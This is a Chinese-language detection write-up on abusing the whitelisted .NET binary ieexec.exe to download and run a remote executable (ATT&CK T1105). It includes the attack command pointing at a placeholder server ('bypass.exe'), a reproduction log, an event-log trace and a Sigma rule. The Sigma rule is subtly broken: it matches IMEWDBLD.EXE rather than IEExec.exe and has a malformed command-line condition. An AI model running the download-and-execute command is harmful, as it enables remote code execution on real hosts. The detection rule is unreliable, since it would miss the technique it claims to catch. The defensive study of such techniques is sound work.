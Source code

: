 # T1105-Win-入口工具转移-ieexec.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。可以将IEExec.exe应用程序用作主机，以运行使用URL启动的其他托管应用程序。

**路径:**

```yml
-   C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
-   C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
```

从远程服务器下载并执行 bypass.exe。  

```yml
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

用例：从远程位置下载并运行攻击者代码  
所需权限：用户  
操作系统：Windows vista、Windows 7、Windows 8、Windows 8.1、Windows 10

## 检测日志

Windows 安全日志

## 测试复现

```bash
Microsoft Windows [版本 10.0.18363.418]
(c) 2019 Microsoft Corporation。保留所有权利。

C:\Users\liyang>ieexec.exe
'ieexec.exe' 不是内部或外部命令，也不是可运行的程序
或批处理文件。

C:\Users\liyang>C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe http://XXXX/QQ.exe
```

在Windows10环境下直接执行ieexec.exe提示异常，需要指定具体路径后才可以正常执行该命令。可将文中的QQ.exe替换成bypass文件即可。

## 测试留痕

```yml
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x1a24

新进程名称: C:\Windows\Microsoft.NET\Framework\v2.0.50727\IEExec.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x1410

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe  https://xxx/QQ.exe
```

## 检测方法/思路

### Sigma规则

```yml
title: ieexec.exe bypass
status: experimental
date: 2022/04/20
author: 12306Br0
tags:
- attack.command_and_control
- attack.t1105
references:
- https://www.codercto.com/a/104908.html
- https://lolbas-project.github.io/lolbas/Binaries/Ieexec/

logsource:
product: windows
category: security
selection:
    NewProcessName: \IMEWDBLD.EXE
    CommandLine:http*//
condition: selection
falsepositives:
- Unknown
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

ieexec.exe

<https://lolbas-project.github.io/lolbas/Binaries/ieexec/>

远控免杀专题(46)-白名单IEexec.exe执行payload  
  
<https://www.codercto.com/a/104908.html>
